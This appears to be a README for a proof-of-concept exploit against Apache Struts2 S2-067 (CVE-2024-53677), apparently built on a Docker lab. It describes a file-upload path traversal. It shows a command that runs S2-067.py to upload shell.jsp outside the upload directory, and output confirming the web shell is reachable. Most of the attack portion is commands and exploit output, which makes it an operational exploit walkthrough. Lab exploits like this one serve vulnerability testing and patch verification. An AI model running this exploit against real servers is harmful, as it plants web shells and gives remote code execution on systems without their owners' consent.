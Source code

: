 # Struts2 S2-067 Remote Code Execution (CVE-2024-53677)


An attacker can manipulate file upload params to enable paths traversal and under some circumstances this can lead to uploading a malicious file which can be used to perform Remote Code Execution.

Note: applications not using FileUploadInterceptor are safe.


```SHELL

docker-compose up -d

docker compose up -d

```


## Usage


### Step-1. Open Url and upload a `test.jpg`

```SHELL

http://a.b.c.d:8080

```


### Step-2. Use `S2-067.py` to Upload `shell.jsp`


```SHELL

root@docker:~/vulhub/struts2/s2-067>python S2-067.py -u http://a.b.c.d:8080/ --upload_endpoint /upload.action --files shell.jsp --destination ../shell.jsp
[INFO] Uploading files to http://a.b.c.d:8080/upload.action...
[SUCCESS] File shell.jsp uploaded successfully: ../shell.jsp
[INFO] Verifying uploaded file: http://a.b.c.d:8080/shell.jsp
[ALERT] File uploaded and accessible: http://a.b.c.d:8080/shell.jsp

```